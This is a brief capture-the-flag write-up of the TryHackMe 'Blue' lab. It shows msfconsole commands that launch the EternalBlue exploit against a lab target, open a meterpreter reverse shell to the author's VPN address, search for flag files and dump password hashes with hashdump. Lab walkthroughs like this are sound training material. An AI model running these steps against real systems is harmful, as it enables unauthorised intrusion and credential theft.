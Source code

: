 https://tryhackme.com/r/room/blue

---
#### Nmap
![[Screenshot_2024-05-11_19-56-35.png]]
Like shown in the title of the challenge, it's all about the Eternal Blue exploit discovered by NSA

I then found an exploit in `msfconsole`  by searching `eternal blue'
```shell
search eternal blue
```

I had to set up the `RHOSTS` with the target ip and the `LHOST` with my local ip provided by THM's vpn
```shell
set RHOSTS 10.10.62.238
set LHOST 10.14.79.56
run
```

It created a meterpreter (enhanced reverse shell). With that I was able the easily find the 3 flags with this command
```shell
search -f *flag*.txt
```

And I found the credentials with `hashdump`

